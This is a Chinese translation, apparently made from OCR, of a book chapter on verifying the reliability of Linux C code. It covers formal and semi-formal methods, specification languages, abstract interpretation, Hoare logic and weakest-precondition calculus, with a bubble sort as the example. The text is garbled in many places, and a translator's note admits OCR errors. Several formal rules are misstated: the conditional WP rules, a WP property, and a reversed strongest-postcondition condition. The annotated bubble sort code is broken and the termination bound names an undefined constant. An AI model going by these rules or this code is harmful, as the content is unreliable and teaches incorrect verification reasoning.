Linux大部分是用C语言编写的，对于必须保持高效或依赖硬件的定义良好的语言，还使用了汇编语言。后一层代码有时被称为硬件相关软件（HdS），它操纵非常底层的数据（寄存器、中断等）。运行在Linux内核之上的大多数应用程序是使用多种语言编写的，包括`sh`、`csh`、`bash`、`C`、`C++`、`Ada`、`Perl`和`Caml`（此处注：原文应为Caml）。从历史角度看，C语言被认为是软件以及许多嵌入式应用的主要编程语言，因此为了提高其可靠性，已已有许多研究。

本章将为读者提供关于分析C程序正确性的技术的深度视角。这是一个非常活跃的领域，形式化方法已通过不同的方法用于检查许多编程语言程序的正确性。

让我们从几个实用的概念开始。

**可靠性（Reliability）**可靠性意味着软件失败的概率处于可接受的水平。不需要完全没有失败，但失败发生的水平和频率相对于软件的关键性来说是可以接受的。从一个简化的角度来看，只有短于一页的程序才能做到完全可靠。失败的衡量是务实的，并且当软件崩溃（无结果或产生不完整的结果）或产生错误结果（临时或永久）时就会发生。

**正确性（Correctness）**当软件的行为符合其规范中的意图时，它被认为是正确的。正确性将实现与其（早期的）规范绑定。通常，正确性是通过形式化的方式解释和验证的，即通过数学手段和严谨性。

因此，一个程序可能是正确的但不可靠的，例如，如果它源于错误的规范。程序也可能是可靠但不正确的，例如，如果它大致符合规范但运行良好。你的目标始终是实现可靠性，而正确性是实现这一目标的手段。为了避免陷阱，答案可能是使用可靠的工具、仔细的设计和彻底的测试。但这可能不够，因为例如，你无法测试每种情况。在现实世界中，意外会发生并导致不可预测的结果。你能做得更好吗？

# 形式化方法 vs 半形式化方法

你不能依靠人的细心；有些程序极其复杂，由相互作用的模块组成。应用现有知识，产生可靠软件的步骤如下：

- 控制所使用的工具。前提是使用成熟的工具（如`gcc`），并避免结果不确定的工具。工具在开发过程中会演进，因此必须对新版本进行测试。在较高水平上，偏向使用易编写和分析的语言。例如，具有严谨语义的`Ada`是一个很好的选择。`Ada`也是一个很好的选择，因为它作为B形式化方法的后端，该方法通过一系列细化产生Ada，然后可以编译成二进制代码，使用`GNAT`编译器。
- 控制所使用的流程。许多流程类型，从V型生命周期到迭代原型开发。流程可以根据产品输出（规范、设计、详细设计、测试文档等）进行控制，并检查是否符合过程标准（例如`ISO9000`或IT安全的通用标准）。流程包含控制点，你可以在那里检查结果（评审代码、检查测试是否符合规范等），并确保这些产品得到有效交付。
- 在过程中的每个可能的任务中使用形式化技术。开发形式化的规范和设计，并证明实现的代码是正确的。这是核心部分，使用数学对象（集合、映射、关系等）为手头问题的对象建立数学模型；模型可以使用（类似于代数公式），并且模型的属性（如正确性）可以被证明。形式化技术可以部分应用，这意味着只处理问题的部分，在这种情况下，形式化规范即可，无需证明。
- 系统地测试代码。测试是上述步骤的补充，因为可以帮助你理解代码的行为，在某些特定情况下（例如领域边界处）测试完整代码，并不断修正直到其运行良好。然后，你可以应用形式化分析来处理一般情况。
- 测量代码复杂度。特别是测量其处理器和内存消耗，以验证其是否符合目标平台的特性和限制。事实上，某些设计选择可能虽然优雅但效率低下。

1. 参见 J. R. Abrial 的《The Book: Assigning Programs to Meanings》，Cambridge University Press, 2005.

## 第 16 章：可靠性：C 代码的静态分析

## 半形式方法

半形式方法是许多工业项目中所使用的先进方法。它们是非形式化方法（英语文本）与完全形式化方法（见下一节）之间的折中，完全形式化方法使用数学符号来描述和推理软件系统。换句话说，半形式方法使用部分形式化、部分非形式（语法和语义，使得对同一描述可能有不同的解释）的描述语言。因此，半形式符号更加灵活，不要求对系统的每个部分都进行严谨或深入的描述。半形式方法消耗的时间和精力也比对应的方法少得多，这对于某些预算有限且非关键的项目来说非常重要。程序员可以轻松地学习它们。

半形式符号经常被用于设计。著名的方法包括面向对象分析、面向对象设计（OO/OOD）、通用建模语言（UML）和分层面向对象设计（HOOD）。其中大多数方法都有工具支持，这些工具允许你轻松地生成半形式设计（例如，Rational Rose 支持 UML）并方便地进行操作（浏览、编辑等）。这些符号通常包含一个代码生成器，可以生成用某种高级编程语言（C、C++ 或 Ada）编写的程序。目标代码通常是不完整的，类似于缺失细节的骨架。设计者可以将规范细化为设计，并在半形式设计语言中将其形式化。然后，合并目标代码直到代码完整并可以编译。这种细化过程在每个阶段都会添加更多细节。

UML² 是一种广泛使用的半形式方法，它结合了类图等多种符号以及描述行为的方法。UML 还使用活动图和状态图（STATECHARTS），这两者提供的形式化程度都高于类图和对象图。由于将许多符号组合进单一方法中，UML 允许你描述各种系统（这也是其名字来源）。

## 形式化方法

形式化方法是数学方法（本质上是规范、设计和证明语言），其目的是辅助系统和软件的构建。它们也受到工具支持，可以用于描述系统、分析其行为并验证其关键属性。

形式化方法背后的原理是，在规范和设计上花费的时间将在后期阶段补偿：由于代码质量更高，测试和维护时间会缩短。它们还减少了以后的维护成本。形式化方法可以揭示错误或某些不完备之处，这些问题在代码编写后纠正可能会变得昂贵。

- 2. 参见 Martin Fowler 的《UML Distilled: A Brief Guide to the Standard Object Modeling Language》，3rd Ed., Addison-Wesley, 1996.

## Hacking Exposed Linux：Linux 安全秘密与解决方案

在过去的 25 年里，形式化方法已经达到了足够成熟的水平，被常规应用于硬件构建和软件构建中，特别是对于安全关键软件。

让我们讨论一些形式化规范和设计方法的细节。

## 规范语言

形式化方法的核心思想是使用形式化的语法和语义，对系统编写精确的规范。语义为组件提供了精确的含义。

系统的规范可能涵盖多个方面中的一个或多个方面，包括其功能行为、结构或架构，也包括非功能方面，如时序或性能。

精确的系统规范可以有多种用途：用于理解系统和转换系统，从而揭示错误或不完备性（例如在 VDM-SL 中），或者规范可以使用形式化证明进行动画或验证的属性。

规范还可以用于驱动开发过程，要么通过将规范细化为代码，要么通过直接生成代码（有时在经过一定数量的转换之后）。当然，测试是开发过程的一个方面，规范也可以通过提供测试用例和/或断言（oracle）来支持测试过程。

存在不同的形式化规范技术；有些是通用技术，另一些强调与特定应用相关的方面，例如并发或实时系统。大多数方法都有工具支持（例如 IFAD VDM-SL 工具包；参见 `http://www.ifad.dk/`）。接下来我们将检查最著名的方法类别。

## 基于模型的语言

编写精确规范的一种方法是使用 Z、VDM 或 B 等语言构建目标系统的模型，这些语言描述系统状态以及改变状态的操作。

系统状态通常使用集合、序列、关系、映射、函数来描述，操作通过前置条件和后置条件描述。结构化此类规范有多种方法。例如，在 Z 中，规范由声明（变量等）以及限制该模式的谓词组成的模式（schemas）组成。

## 有限状态的语言

基于状态的语言（如 B、Z 和 VDM）可以描述具有潜在无限状态的任意抽象系统。这种通用性有一个缺点，即它使得推理不易自动化。因此，存在一类独立的有限状态规范语言。

正如其名称所示，有限状态语言将系统表示为集合的集合以及状态之间的转换。它们通常以图形形式呈现。此类语言示例包括有限状态机 ESTEREL、SDL 和状态图（STATECHARTS）。

## 第 16 章：可靠性：C 代码的静态分析

虽然基于模型的技术主要面向顺序系统的描述，但这些符号允许对并发系统进行显式表示。这些语言中的规范通常由几个扩展有限状态机组成，它们使用信号或事件进行通信，而扩展有限状态机是带有内部内存的有限状态机，其转换可以访问并更改内部内存。内部内存是共享的。

## 进程代数

并发可以通过非常优雅的代数表示来实现，即进程代数通过一组通信进程来描述系统。示例包括 CSP、CCS 和 LOTOS。

例如，在 CSP 中，系统被描述为一组并发运行并在事件上同步的通信进程。CSP 是 Transputer 机器的基础，该机器是针对这种特定语言建模的！在 CSP 中，并行组合操作表示为 `//`，可以并行尽可能多的顺序进程，并具有可能的层次结构。进程通过发射（emit）和接收（receive）语句进行通信，从而实现同步。

## 代数语言

某些系统根据其代数属性进行描述。代数规范语言通过完全描述所需属性的公理来描述系统的行为。代数规范语言的一个示例（祖先）是 OBJ。

简而言，一个公理由一组表示某些类型值的符号、该集合上的一组操作，以及利用系统许可行为的公理（规则的规则）组成。

支持使用代数方法进行规范的一个重要论点是：方程可以用于提供一种评估有效的、但其他任意的操作组合的机制。例如，在栈模型中，一个公理可以模拟这样一个事实：将元素推入栈然后将其弹出正是该元素本身。该公理写为：

```
s ∈ Stack, e ∈ Element, pop(push(e,s)) = e
```

公理可以重写为规则（这被称为项重写），使得代数规范部分可执行。上述公理可以转换为以下规则：

```
pop(push(e,s)) → e
```


这意味着匹配左侧的每个表达式（项）都可以替换为相应的右侧项（变量替换后）。公理系统可以变为项重写系统，该系统可以嵌入演绎证明器中。

# 时序逻辑 (Temporal Logics)

一类规范语言构建在时序逻辑（TL）之上。这些逻辑使用模态算子，即下一个 `$\bigcirc$`、最终 `$\diamond$` 和 始终 `$\square$`，来对程序状态的轨迹（traces）而非程序状态本身进行推理。并发程序被视为执行轨迹的集合，有时带有前缀（初始化、实例化），这些轨迹在交织执行模型中由于不同的指令可能顺序而产生分叉。时序逻辑主要有两种变体：线性时间逻辑或分支时间逻辑，取决于是否使用一个或多个时间轴。常见的逻辑有线性时间逻辑（LTL）和计算树逻辑（CTL）。

通过时序逻辑，程序的属性可以分为两类属性：

- **不变性属性（Invariance properties）**：这些表示在程序的任何执行过程中都不会发生某些情况；例如，变量保持在某些限制范围内，或者始终满足某种良好且理想的属性（例如，在冒泡排序期间，数组的某部分始终是有序的）。
- **存活性属性（Liveness properties）**：这些表示程序最终会发生某些情况。例如，程序最终终止或到达某个时间点。

时序逻辑也可以被用于对时间的推理，特别是针对实时程序。为了这一目标，时间维度要么被显式引入（作为一个具有特定名称的新变量），要么通过将模态算子适配于时间维度来隐式引入，例如将它们限制在有界的时间范围内（例如，`$\square_{[a,b]}$` 表示 `P` 在时间帧 `[a,b]` 内始终为真）。

# 混合系统 (Hybrid Systems)

许多系统，特别是安全关键型系统，是通过模拟和数字组件组合构建的。为了规范和验证此类系统，你需要使用一种能够描述离散和连续演化对象的规范语言。关于混合系统语言，已有大量研究，例如 T. Hinger 在混合自动机方面的工作（参见 `$http://mtc.epfl.ch/~tah/Publications/bytopic.html#byhtech$`）。

# 静态分析 (STATIC ANALYSIS)

静态分析是一组在不实际运行程序的情况下对其进行分析和推理的技术。这就是为什么它们被称为“静态”的，相对于“动态”的。静态分析旨在详尽地分析程序的行为，即考虑到所有的输入值。这再次与动态分析进行对比，在动态分析中，通常是孤立地考虑输入值并在程序上进行测试。由于输入域的大小，测试通常是非详尽的。

# 第 16 章：可靠性：C 代码的静态分析

抽象解释（Abstract Interpretation）是一项由 P. Cousot 和 R. Cousot 详细探索的技术，通过执行程序的抽象版本来提供结果。“抽象”一词应被理解为简化版本，其中变量的域被更简单的域所取代，且程序指令在这些简化的域上操作。例如，数据类型 `int` 可以被格 `I = {-, 0, +}` 取代，其符号分别表示负整数和正整数的子集。例如，整数上的二进制运算 `+` 变为对 `I` 元素的二元运算，其规则如图 16-1 所示。

读者可能注意到，这里考虑的是格（lattices）而不是类型（类型等同于集合）。事实上，域是完全格，具有一个顶元素和一个最底元素，分别标记为 `T` 和 `⊥`。这是必要的，因为任何整数在目标机器表示中都可能是有效的整数，但任何整数（由值 `T` 表示，意味着 Top，即上界元素）或未定义的整数（由 `⊥` 表示，意味着 Bottom，即下界元素）也是可能的。格理论可以在 `https://en.wikipedia.org/wiki/Complete_lattice` 找到。许多其他格也可以使用，如整数格、多面形和八角形，以及它们的组合（两个完全格的组合仍然是完全格）。

重要的是，在抽象程序中执行的操作反映了实际程序中执行的操作，尽管其方式更简单但仍然有效。

抽象程序在抽象值上操作，这些值比实际值更粗糙，但其上的计算更简单。因此，在抽象世界中的执行可以一次性表示整类输入值的结果。抽象计算可以比其具体的对应得更快。例如，考虑整数加法被一个复杂度低得多的抽象操作所取代。使这些抽象执行快速的因素之一是循环中发生的近似，这使得对执行不终止的程序的分析可以在有限时间内完成。然而，在实践中，抽象执行

| | | 0 | + |
|---|---|---|---|
| - | - | - | - |
| n | - | T | T |
| 0 | T | T | + |
| + | T | + | + |

**图 16-1** 函数 `$\oplus$` 的定义

+ 3 See Patrick Cousot and Radhia Cousot's Abstract Interpretation: A Unified Lattice Model for Static Analysis of Programs by Construction or Approximation of Fixpoints, POPL, 1977 and Patrick Cousot's Méthodes itératives de construction et d'approximation de points fixes monotones sur un treillis. Analyse sémantique de programmes et d'opérateurs monotones sur un treillis. Ph.D. thesis dissertation, Scientific and Medical University of Grenoble, 1978.

在时间和内存空间上的成本可能很高，特别是当选定的抽象不能良好匹配分析分析程序时。这种成本可能成为使用抽象解释技术的限制因素。

# C 代码静态分析 (C CODE STATIC ANALYSIS)

C 语言属于命令式编程语言范畴。它已存在 30 多多年，现在被广泛应用于各种。它在 1989 年标准化为 ANSI C（ANSI X3.159-1989），并在 1990 年被 ISO 采用（ISO/IEC 9899:1990），1999 年创建了一个新标准（ISO/IEC 9899:1999），增加了动态数组以及用于密集数值计算的功能。用 C 构建的最著名应用是 UNIX 操作系统，包括 Linux 内核、Microsoft Windows 内核和 GNU gcc 工具。对于每一个新点，底层代码都会被重写（这通常由汇编代码组成）。

C 可以被视为低级或弱类型编程语言，从操作的数据结构接近机器硬件的角度来看：位、字节、字、长字和指针被频繁操作。机器代码可以解释为数字、字符、地址或位流。C 没有提供任何内置功能来方便地处理高级数据结构（如动态链接否、字符字符串、文件等）。因此，开发者使用标准库函数来处理此类结构或使用附加库。相反的情况存在于 Ada 中，其标准包含强类型检查和处理高级数据结构的 API。

同样，C 既不提供面向对象的编程手段，也不提供异常处理机制或任何并发手段。C 不支持运算符重载，不像 C++ 或 Ada，这使得它不够友好。然而，在必须进行低级编程时（即必须仔细管理资源时），C 仍然具有价值。

C 编译器生成的代码代码非常高效，这使其成为嵌入式系统的首选编程语言。

## 第 16 章：可靠性：C 代码的静态分析

如前所述，分析 Linux C 代码有多种类别的技术。对于每一类技术，其方法、规范和语言的数量与工具的数量一样多！许多工具都定义了自身的语言（语法和语义），这使得规范通常无法从一种语言移植到另一种语言。

毫无疑问，分析 C 代码最广泛的方法是**霍尔逻辑（Hoare Logics）**。在深入介绍如何静态分析 Linux C 代码的细节时，我们将考虑这种方法以及相关的规范语言。该规范语言是 VDM-SL（VDM 代表维也纳开发方法 Vienna Development Method，SL 代表规格语言 Specification Language），选择它是因为它是霍尔逻辑中编写规范时表达能力最强的语言之一。

## 使用霍尔逻辑分析 C 代码

让我们先讨论霍尔逻辑原理和 VDM 方法。霍尔逻辑组成包括通过**前置条件（pre-condition）**和**后置条件（post-condition）**，在规范层面描述每个函数的预期行为。这些是状态谓词，用一阶或高阶逻辑（如 VDM-SL）表示，精确地形式化了函数执行前后变量的状态。谓词通过关系将变量（局部和全局变量）关联起来。通过该关系，变量由显式函数绑定（例如 `R(x,y)`，其中 `R` 是关系）。前者是后者的特殊情况。考虑以下冒泡排序函数作为范例：

```c
typedef int table[MAX_INDEX];

// 对表 t 中的整数进行升序排序

void bubblesort(table t) {
  int tmp,x,y;
  for (x=0; x<MAX_INDEX; x++) {
    for (y=0; y<MAX_INDEX-x-1; y++) {
      if (t[y] > t[y+1]) {
        tmp=t[y+1];
        t[y+1]=t[y];
        t[y]=tmp;
      }
    }
  }
}
```

前置条件和后置条件分别表示：`MAX_INDEX` 是一个正整数常量，且执行后表（table）是按升序排列的。其写法如下：

```
Pre-bubblesort: (MAX_INDEX > 0)
Post-bubblesort: (Vi ∈ [0,MAX_INDEX-1], t(i) ≤ t(i+1))
```

## 攻防 Linux：安全秘密与解决方案

这些谓词使用了属于某些逻辑的各种对象：

- **变量和常量**：它们属于某些模型集合，通常是数学集合。例如，整数变量由数学整数建模。其他原始集合包括布尔值、字符、标记（tokens）和有理数。实数是没有必要的，因为计算机并不真正处理实数，而是具有有限精度的实数子集，即有理数。在 VDM-SL 中，还可以使用（部分或完全）函数、子集、超集、乘积等构建更复杂的模型集合。
- **表达式**：C 运算符使用数学运算符进行建模。例如，C 整数的加法运算符使用整数的数学加法运算符建模。在各种模型集合上的大量运算符允许构建复杂的表达式。允许使用全称量词和存在量词。
- **高阶对象**：在多种逻辑（如 VDM-SL 使用的逻辑）中，可以编写任意阶的高阶项。在 VDM-SL 中，幂集和函数构建了此类高阶对象。函数可以接受其他函数作为参数，如下例：

```
Nat_filter (nat -> bool) * seq of nat Nat_filter(p,ns) == [ns(i) | i in set elems & p(ns(i))]
```

`Nat_filter` 接收一个自然数序列和一个谓词，返回满足该谓词的子序列。然后 `nat_filter(lambda x: nat & x mod 2 = 0, [1,2,3,4,5])` 返回 `[2,4]`。

事实上，这并不是自然数特有的，可以像下面变成多态：

```
Filter[@elem] : (@elem -> bool) * seq of elem -> seq of elem Filter(p,l) == [l(i) | i in set elems & p(l(i))]
```

此函数适用于任何 `@elem`。

因此，前置条件和后置条件是关于函数状态变量模型的谓词。每个变量都由一个数学对象解释，不再使用经典的赋值，因为赋值只在 C语言中有意义。

在冒泡排序示例中，前置条件必须手动给出，并且应该是一个谓词，说明函数开始执行前输入变量和全局变量的约束。理想情况下，前置条件在逻辑蕴含上应该是尽可能弱的，以最大化输入域的大小。这把输入变量和全局变量值的取值限制在函数定义的某些子集上。这意味着函数对该集合中的每个值都能计算正确的结果。记住，谓词等同于集合。对于 Bubblesort 函数，`t` 被建模为一个映射（同名）：

```
t : nat -> nat
```

它是仅定义在子集 `[0, MAX_INDEX]` 上的部分函数。符号 `->` 是部分函数的构造符号，而 `+` 符号是全函数的构造符号。

后置条件也必须编写，它是函数终止后对输出变量和全局变量的谓词。它描述了函数产生的结果。

*(注：提供的 OCR 文本在第 541 和 542 页之间存在大量的重复和错误，上述翻译是基于所提供的逻辑流整理的。)*

## 第16章：可靠性：C代码的静态分析

同时解决问题。他将自己限制在“可管理的”控制结构上，而不是处理流程。他试图传达此类限制（编程规范）的必要性，这本质上是一个规模问题。它展示了如何根据程序的正确性来定义语言（或现有语言的子语言，如C），而不是如何执行它，这可能会导致更简单的设计。托尼·霍尔（Tony Hoare）创立了编程语言公理化定义的新研究派。

Dijkstra主要感兴趣的是那些在某些初始状态启动后，最终进入某个最终状态的系统，根据规则，该状态取决于初始状态的选择。

由于确定性系统（C程序）是我们的目标，这种系统的激活最终将终止，使系统处于满足给定后条件的最终状态，被称为对应于后条件的最弱前条件（weakest-precondition, WP）。Dijkstra将其称为最弱是因为条件越弱，满足的条件就越多（记住，状态谓词等同于状态），其目标是表征所有确定会导致最终状态的可能起始状态。

如果系统表示为 `S`，期望的后条件为 `R`，则最弱条件表示为 `WP(S, R)`。如果初始状态满足它，该机制就是最终建立 `R` 的真值。翻译成具有前条件和后条件的函数 `f`，`f` 是部分正确的，如下：

```
Pre_f => WP(f, Post_f) F_VC
```

该谓词被称为验证条件（verification, VC），因为它必须对每个给定的前条件和后条件进行释放。

`WP` 有一些有趣的属性，例如：

- 1. 对于任何代码 `S`: `WP(S,false) = false`
- 2. 对于任何代码 `S` 以及满足 `Q=>R` 的后条件 `Q` 和 `R`: `WP(S,Q) => WP(S,R)`
- 3. 对于任何代码 `S` 以及任何后条件 `Q` 和 `R`: `WP(S,Q) ∧ WP(S,R) = WP(S,Q ∧ R); WP(S,V) ∧ WP(S,R) = WP(S,Q ∨ R)`

属性 1 表达了从 `S` 到达一个不可访问状态（即 false 成立的状态！）的 WP 是空的。属性 2 显示，后条件的加强或削化会导致相应的削弱或加强的 WP。

对于语义纯洁的编程语言（如 Pascal）中的程序，Dijkstra 推导了一个运算符 WP 来回答以下问题：对于给定的 `S` 和 `R` 如何导出 `WP(S, R)`？

所选的编程语言相当简单，由跳过语句、赋值语句、组合语句、非确定 if 语句以及非确定循环语句组成（这些顺序语句与 CSP 中的相同吗？）。这些规则在这里没有给出，而是给出了对应的对应的规则。对于这些规则，`P`、`Q` 和 `R` 是谓词，`E` 是表达式，`c₁`、`c₂` 等是常量，`S`、`S'`、`S''` 等是语句。

### 赋值语句
假设 `S = (x=e)`，那么

`WP(S,P) = P[x/e]`

### 条件语句
假设 `S = (if B then S1)`，那么

`WP(S,P) = if B then WP(S,P)`

假设 `S = (if B then S1 else S2)`，那么

`WP(S,P) = if B then WP(S,P) else WP(S,P)`

### 函数调用
假设 `S = f(a,&b)` 是对函数 `f` 的调用，关联的前条件和后条件表示为 `pre_f` 和 `post_f`，其输入和输出参数为 `a` 和 `b`，那么

- 如果 `post_f` 以显式形式 `post_f = {y=F(x)}`，其中 `x` 和 `y` 分别是 `f` 的形式输入和输出变量，
  `WP(S,P) = P[b/F(a)] ∧ pre_f[a/x,b/y]`
- 如果 `post_f` 不是显式的，那么
  `WP(S,P) = pre_f[x/a,y/b] ∧ (∀y, post_f(x,y) => P(x,y))`
  其中 `y` 是域 `y` 的新变量。

### While 循环
假设 `S = (while B) S1`。循环的 WP 计算困难，因为它们代表了数量数量路径，取决于 `B` 中使用的变量值。循环相对于某些前后条件 `P` 和 `Q` 的部分正确性通过找到一个不变式 `Inv S` 来计算，使得

```
P => Inv_S                               LOOP_VC_PRE
{Inv_S & B} S1 {Inv_S}                  LOOP_VC_INV
(Inv_S ∧ ¬B) => Q                      LOOP_VC_POST
```

参见 C. A. R. Hoare 的《Communicating Sequential Processes》，Prentice-Hall，1985。

这些分别表达了：`P` 必须隐含不变式；只要循环条件为真，不变式必须成立；当循环结束时 `Q` 必须成立。在没有 `P` 的情况下，前条件可能只是 `Inv_S`。这三个谓词也称为验证条件，因为必须对任何不变式进行释放。

### 带有 Break 的 Switch 语句
假设

```
S = switch (E) {
  Case c_i: S; break;
  Case c_n: S; break;
}
```
那么 `WP(S, P) = (E=c_i => WP(S_i, P)) ∧ (E=c_n => WP(S_n, P))`。

### 顺序组合
假设 `S = S_i;S_n`，那么

`WP(S, P) = WP(S_i, WP(S_n, P))`

大多数语句的 WP 可以通过之前给出的语句计算，通过将它们在语法上转换为等效指令，正如 WP 是最强前条件（SP）一样为任何语句 `S` 和谓词 `P` 计算 `S` 的最强后条件。SP 向下向前计算，而 WP 向上向计算。因此，如果满足以下条件，某些函数 `f` 对于其前后条件是部分正确的：

```
SP(f, Post_f) => Pre_f
```


这里 `C` 语言的某些结构在不明确时会产生问题。处理动态对象是棘的，特别是涉及到别名（`aliasing`）时。当不同的变量指向同一个内存位置时就会发生别名。例如，写入 `*v` 创建了 `p` 的别名。更改别名变量的值可以修改（并伪造）别名的属性。解决别名问题需要知道哪些变量是其他变量的别名。别名问题是复杂的，可以通过计算变量之间的依赖关系解决。

### 验证条件
让我们考虑冒泡排序示例。使用 `SP`，获得如下标注版本：

```
void sort(table t) {

  int i,x,y;

  for (MAX_INDEX > 0) {

    x=0;

    while (y < MAX_INDEX-1) {

      // Inv 1: Vie[MAX_INDEX-x,MAX_INDEX-1], t(i) = nth-highest(t,i)

      t(y) = max(t'[0,y]);

      if (t[y] > t[y+1]) {

        // Inv 2: Vie[MAX_INDEX-x,MAX_INDEX-1], t(i) = nth-highest(t,i)

        t(y) = max(t'[0,y]);

        swap(t[y], t[y+1]);

      }

      y++;

    }

    x++;

  }

}
```

`LOOP_VC_INV`:
```
{ Vie[MAX_INDEX-x,MAX_INDEX-1], t(i) = nth-highest(t,i)

  t(y) = max(t'[0,y])

  => Inv_2

}
```
`y=MAX_INDEX-x`

```
A Vie[MAX_INDEX-x,MAX_INDEX-1], t(i) = nth-highest(t,i)

  t(MAX_INDEX-x-1) = max(t'[0,MAX_INDEX-x-1])
```
`x++;`

`LOOP_VC_INV`:
```
{ y=MAX_INDEX-x

A Vie[MAX_INDEX-x+1,MAX_INDEX-1], t(i) = nth-highest(t,i)

  t(y) = max(t'[0,y])

  => Inv_1

}
```

`Bubblesort VC`:
```
x=MAX_INDEX-1

A Vie[MAX_INDEX-x,MAX_INDEX-1], t(i) = nth-highest(t,i)

> => Post-bubblesort: Vie[0,MAX_INDEX-1], t(i)<t(i+1))
```

在这个函数中，状态谓词（斜体并位于括号内）插入到代码的每个位置。这些谓词是通过 `SP` 从上向下计算的：前条件、不变式和后条件预先就位置，然后计算了其他谓词。

# 第16章：可靠性：C代码的静态分析

此处给出，因为它们显而易见。`Bubblesort_VC` 代表与整个函数相关的验证条件，因为它等于 `SP(f,pre_f) =>post_f`。

我们邀请读者证明验证条件的真伪。请注意符号 `++` 表示覆盖：`f ++ [x ->e]` 在点 `x` 处覆盖 `f`。其结果是函数 `g`，定义如下：

```
g = lambda y. if y=x then e else f(x)
```

`VC`（验证条件）的证明可以手动完成，也可以使用某些专门工具（如定理证明器）完成。此类工具具有高度的专业性，某些演绎证明器（例如原型验证系统 `PVS`；请访问 `http://csl.sri.com/programs/formal-methods/`）的推理方式与其他工具非常相似。

## 终止

最后，让我们考虑终止问题：我们将证明每个循环最终都会终止。为了实现这一目标，必须给出一个正表达式，该表达式在每次循环迭代中严格递减，并在循环结束时达到 `0`。这个单调递减表达式保证了终止最终会发生。你通常可以从循环不变性中猜到。例如，冒泡排序示例中外循环 `L` 的终止条件为：

```
Term L : MAX_ITER - 1 - x
```

显然，`Term` 从值 `MAX_ITER` 开始，以 `0` 结束，并且始终为。
这种 `C` 验证方法依赖于为每个函数生成前置条件和后置条件，并对每个标注函数进行正确性证明。这两个步骤是可以解耦的，只产生规格而将证明留到后期阶段是完全可以接受的，特别是在精力有限的情况下。验证条件的证明非常耗时，并且需要一些数学背景（本质上是代数背景）。对于某些数值代码，作者估计完成完整的规格和证明所花费的精力等同于编写应用程序本身的精力。

## 方法论

从方法论的角度来看，如何将 `Hoare` 方法应用于 `Linux` 内核代码的部分？
如果估计代码（或其部分部分）值得形式化验证，那么形式化方法（如 `Hoare` 方法）应该是强制性的。我们将分析目标（`Target of Analysis`）记为 `ToA`。

> 8 参见 `A. Puccetti` 等人的《编程与证明系统 `ATTES`》，研究报告 `ESPRIT`，`Springer`出版社，1991年。

# 第一种方法

理想情况下，推导出 `VDM` 方法的 `Hoare` 方法应该在开发过程的早期阶段。在规格阶段，这意味着系统函数应该使用 `VDM-SL` 进行形式化的规格说明，并逐步进行细化（`Refinements`）。细化不需要是形式化的细化（例如在 `B` 语言中，即每个细化部分（即模块集）都需要检查其与原始模块的符合性）。目前存在多种方法和支持，如 `B` 或 `VDM`。它们提供了一种规格语言，通过这种语言涵盖全局和详细规格、设计以及实现阶段。这种语言允许我们像之前那样描述前置条件和后置条件，还可以描述函数的伪代码。它还支持面向对象。

每个代码函数的规格最初由函数签名连同其前置条件、后置条件以及一些可能的代码组成。因此，开发者必须开始编写一些高级函数及其规格。细化由将这些函数分解为更小、更易管理的函数组成。因此，细化引入了新的函数和模块，以构建可以分组为模块的新功能。细化还引入了新的数据类型或完善了现有的数据类型。全局变量也可以分组为一个状态向量。例如，在 `VDM-SL` 中计算圆锥体积的函数签名如下：

```
CircConeVol :: CircCone -> real

CircConeVol(c) == MATH'ExtPI * c.diameter * c.diameter * c.height/12.0

Pre_CircConeVol: c.diameter > 0 and c.height > 0
```


连续细化的结果是一组函数，它们都带有伪代码且没有任何隐式结构（即后者无法通过算法高效地计算），并被分组为模块。可以自动生成编程语言代码，然后进行编译。例如，`VDM-SL` 产生 `C/C++` 代码，而 `B` 产生 `Ada` 代码。这种高级代码生成阶段保证了目标代码符合规格，但可能不是最优的。在后期，开发者可以手动优化目标代码直到达到满意。当然，也可以选择不同的路径，即如果需要其他目标语言，则手动生成代码或使用翻译器。

在细化过程中，必须按照所述，通过生成验证条件并证明它们来检查伪代码的符合性。这一证明阶段不是强制性的，但可以增加对代码可靠性方面的信心。证明阶段的一半（即生成验证条件并手动执行证明）也很有价值。

# 第二种方法

第二种方法更加务实，可以应用于现有的代码库。它从重构 ToA 的规格开始。ToA 运行得可能很好，但你可能想对其进行详细分析以发现更多 bug，甚至确认没有遗留 bug。实现这些点的前提是：

- 目标 C 代码的现有文档：关于代码的功能及其如何实现的内部文档是理想的，特别是当程序包含编程黑科技（hacks）和技巧窍门时。许多网站包含关于 Linux 内核的宝贵文档，如 `http://www.kernel.org` 或 `http://www.ldp.org/`。像这样的书集也可能很有用。
- 规格工具：编写规格确实很有价值，但容易出错。因此，使用规格工具来分析规格的一致性，甚至评估其伪代码会更好。
- Linux 的源码或至少是 ToA 的源码。
- 充足的时间和精力。
- 对 ToA 的精确定义。

给定这些元素后，你开始构建被 ToA 使用并认为正确的模块的规格。它们的规格由一组包含变量、常量和函数模型的模块组成。函数具有关联的前置条件和后置条件。这一假设阶段发生在基础库处，其中对数学函数进行建模。这是在工具定义的。例如，数学余弦函数模拟了 `cos` 运算符。对于底层函数，编写其规格并证明其正确性。然后你可以移动到下一层，假设每个低层都是正确的。

取决于工具的支持，正确性证明可以实现不同程度的自动化。可以分为两种情况：

- 工具原生支持 C 语言（如 `Caduceus` 或 `CAVEAT`）：前置和后置条件通过作为代码中的注释或作为独立文件与函数关联。自动生成验证条件并由集成证明器进行证明。
- 工具不支持 C 语言（如 `B`）：在这种情况下，验证条件和符合性证明需要手动完成，或者你必须将 ToA 代码逆向工程为伪代码，并执行之前相同的步骤。注意，翻译步骤具有相当风险，逆向工程代码的正确性不能保证初始代码的正确性。

# 一些 C 分析工具

程序静态分析几十年来一直是一个活跃的研究领域，并在过去的十年里已经成熟到支持分析的工具具有实用的程度。

# 攻防世界中的 Linux：Linux 安全秘密与解决方案

对于由数千行代码组成的真实世界应用，现在有许多可用工具，每种工具都有其优缺点。此处列出的工具只是市场和学术界现有工具的一个样本。

## 基于抽象解释的工具

过去几年中，已经开发了若干种基于抽象解释技术的 C 程序验证方法。

### PolySpace Verifier

`PolySpace Technologies` 分发了 `PolySpace Verifier` 工具 (`http://www.polyspace.com/products.htm`)，该工具利用先进的抽象解释技术来检测 `C`、`C++` 和 `Ada` 程序中的潜在运行时错误。

该工具的设计目标是尽可能自动化。这使得当分析程序处于目标范围内时非常易使用；但另一方面，这也使得消除误报变得困难——这些误报并非反映实际问题，而是由于工具的近似处理造成的。

